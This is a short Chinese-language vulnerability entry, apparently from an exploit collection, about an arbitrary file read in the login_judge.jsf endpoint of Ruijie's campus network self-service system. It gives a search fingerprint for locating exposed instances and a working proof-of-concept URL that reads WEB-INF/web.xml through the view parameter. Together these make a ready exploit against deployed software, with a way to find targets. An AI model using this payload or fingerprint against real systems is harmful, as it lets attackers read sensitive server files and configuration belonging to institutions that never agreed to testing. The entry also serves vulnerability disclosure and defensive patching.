

锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞¶
漏洞描述¶
锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件
漏洞影响¶
锐捷 校园网自助服务系统
网络测绘¶
body="校园网自助服务系统"
漏洞复现¶
登陆页面
poc
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
